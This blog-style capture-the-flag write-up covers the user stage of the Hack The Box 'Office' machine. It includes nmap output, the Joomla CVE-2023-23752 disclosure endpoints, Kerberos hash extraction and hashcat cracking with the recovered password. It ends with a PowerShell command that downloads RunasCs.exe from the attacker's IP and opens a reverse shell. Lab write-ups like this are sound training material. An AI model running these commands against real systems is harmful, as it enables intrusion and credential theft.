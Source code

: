 +++
title = 'writeup office HTB(user)'
draft = false
+++
# writeup office HTB(user)
## user
### RECON
```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 16 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-generator: Joomla! - Open Source Content Management
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-title: Home
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-02-19 14:34:25Z)
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
..........................................

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38823/tcp): CLEAN (Timeout)
|   Check 2 (port 18395/tcp): CLEAN (Timeout)
|   Check 3 (port 60879/udp): CLEAN (Timeout)
|   Check 4 (port 60573/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h59m52s
| smb2-time: 
|   date: 2024-02-19T14:35:21
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 19 01:36:08 2024 -- 1 IP address (1 host up) scanned in 105.60 seconds
```
### web
let check admin page 
![image](https://github.com/vanatka10/myblog/assets/126310360/8cf1bcb3-0cb5-4c13-93c0-a7d89ea5a3f8)

i have login with some default username and password but nothing are corret

let check version joomla
we can check verion with following path:
```
Version
In /administrator/manifests/files/joomla.xml you can see the version.
In /language/en-GB/en-GB.xml you can get the version of Joomla.
In plugins/system/cache/cache.xml you can see an approximate version.
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

![image](https://github.com/vanatka10/myblog/assets/126310360/857f9313-2f9e-43d5-a2a7-889871041884)
### CVE-2023-23752
we can easily found cve of this version
![image](https://github.com/vanatka10/myblog/assets/126310360/6607d033-ebe1-4973-a4fd-99226cdf4ce1)

Unauthenticated information disclosure that's exactly what we want.

look at some exploit file we can see it with send request to some uri and retrieve some useful information:
```
{root_url}/api/index.php/v1/users?public=true
{root_url}/api/index.php/v1/config/application?public=true
```
![image](https://github.com/vanatka10/myblog/assets/126310360/7abb26a3-441a-466b-91ad-d538bbf8b461)

https://github.com/Acceis/exploit-CVE-2023-23752.git

![image](https://github.com/vanatka10/myblog/assets/126310360/732f64ad-ec0f-4d26-8215-0f1ea55190dc)

We have some Credentials but i can't login with these :3 . probably password of another user?
kerberos port open so i use kerbrute discover user.  
i got some username, after a few tries and fuzz finally i have working username .It is 'dwolfe' but it just use in smb

### smb
```
smbclient //10.129.198.153/SOC\ Analysis  -U 'dwolfe'
```
and get file pcap

following this article we get username, hash and crack password with hashcat
https://vbscrub.com/2020/02/27/getting-passwords-from-kerberos-pre-authentication-packets/
```
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```
hashcat -m 19900 hash.txt /user/share/wordlist/rockyou.txt
```

pass:playboy69

### user

login admin panel -> template and ... get reverse shell
![image](https://github.com/vanatka10/myblog/assets/126310360/aaaf5e9b-a270-4b37-a264-d755805607e1)

next we use runas to elevate an account
```
powershell -c wget 10.10.16.48:9000/RunasCs.exe -o r.exe
./r.exe tstark playboy69 -r 10.10.16.48:8888 cmd


```
![image](https://github.com/vanatka10/myblog/assets/126310360/24571f7e-886b-4cf1-be73-fc13573affc1)

get the flag
![image](https://github.com/vanatka10/myblog/assets/126310360/c356cb70-a650-4ab6-a65b-36748dbc2931)
